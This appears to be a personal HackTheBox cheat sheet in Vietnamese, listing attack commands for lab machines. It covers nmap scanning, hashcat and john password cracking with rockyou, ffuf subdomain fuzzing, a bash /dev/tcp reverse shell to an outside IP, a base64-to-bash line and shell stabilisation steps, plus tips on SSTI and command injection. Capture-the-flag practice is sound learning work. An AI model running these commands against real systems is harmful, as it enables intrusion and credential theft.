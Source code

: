 # HackTheBox

# nmap

nmap -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain
- vào sqldatase
